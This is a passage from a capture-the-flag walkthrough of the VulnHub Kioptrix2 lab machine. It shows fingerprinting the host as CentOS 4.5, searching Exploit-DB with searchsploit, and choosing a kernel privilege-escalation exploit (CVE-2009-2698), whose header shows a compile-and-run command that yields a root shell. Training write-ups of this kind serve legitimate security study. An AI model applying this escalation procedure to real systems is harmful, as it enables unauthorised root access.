 ```
lost+found
media
misc
mnt
opt
proc
root
sbin
selinux
srv
sys
tmp
usr
var
```
*	* Look in /etc/ for any config files that can tell us more:
	* /etc/ contains many files but we are looking for any installed information we can find:
	* ```redhat-release``` sticks out, lets try to read it
```
bash-3.00$ cat redhat-release
CentOS release 4.5 (Final)
```
7. See if CentOS 4.5 is vulnerable:
```
root@kali:~/Desktop/VulnHub/Kioptrix2# searchsploit centOS
----------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                   |  Path
                                                                 | (/usr/share/exploitdb/)
----------------------------------------------------------------- ----------------------------------------
CentOS Web Panel 0.9.8.12 - 'row_id' / 'domain' SQL Injection    | exploits/php/webapps/43855.txt
CentOS Web Panel 0.9.8.12 - Multiple Vulnerabilities             | exploits/php/webapps/43850.txt
Centos 7.1 / Fedora 22 - abrt Privilege Escalation               | exploits/multiple/local/38835.py
Linux Kernel (Debian 7.7/8.5/9.0 / Ubuntu 14.04.2/16.04.2/17.04  | exploits/linux_x86-64/local/42275.c
Linux Kernel (Debian 7/8/9/10 / Fedora 23/24/25 / CentOS 5.3/5.1 | exploits/linux_x86/local/42274.c
Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 1 | exploits/linux/local/9545.c
Linux Kernel 2.4/2.6 (RedHat Linux 9 / Fedora Core 4 < 11 / Whit | exploits/linux/local/9479.c
Linux Kernel 2.6 < 2.6.19 (White Box 4 / CentOS 4.4/4.5 / Fedora | exploits/linux_x86/local/9542.c
Linux Kernel 2.6.32 < 3.x.x (CentOS) - 'PERF_EVENTS' Local Privi | exploits/linux/local/25444.c
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'Wacom' Multiple Nullp | exploits/linux/dos/39538.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'aiptek' Nullpointer D | exploits/linux/dos/39544.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'cdc_acm' Nullpointer  | exploits/linux/dos/39543.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'cypress_m8' Nullpoint | exploits/linux/dos/39542.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'digi_acceleport' Null | exploits/linux/dos/39537.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - 'mct_u232' Nullpointer | exploits/linux/dos/39541.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - visor 'treo_attach' Nu | exploits/linux/dos/39539.txt
Linux Kernel 3.10.0 (CentOS / RHEL 7.1) - visor clie_5_attach Nu | exploits/linux/dos/39540.txt
Linux Kernel 3.10.0 (CentOS7) - Denial of Service                | exploits/linux/dos/41350.c
Linux Kernel 3.10.0-229.x (CentOS / RHEL 7.1) - 'iowarrior' Driv | exploits/linux/dos/39556.txt
Linux Kernel 3.10.0-229.x (CentOS / RHEL 7.1) - 'snd-usb-audio'  | exploits/linux/dos/39555.txt
Linux Kernel 3.10.0-514.21.2.el7.x86_64 / 3.10.0-514.26.1.el7.x8 | exploits/linux/local/42887.c
Linux Kernel 3.14.5 (CentOS 7 / RHEL) - 'libfutex' Local Privile | exploits/linux/local/35370.c
Pure-FTPd 1.0.21 (CentOS 6.2 / Ubuntu 8.04) - Null Pointer Deref | exploits/linux/dos/20479.pl
```
*	* We are really interested in 9542.c
	* ```searchsploit -x 9542.c```
```
:
** --
** bash$ gcc -o 0x82-CVE-2009-2698 0x82-CVE-2009-2698.c && ./0x82-CVE-2009-2698
** sh-3.1# id
** uid=0(root) gid=0(root) groups=500(x82) context=user_u:system_r:unconfined_t
```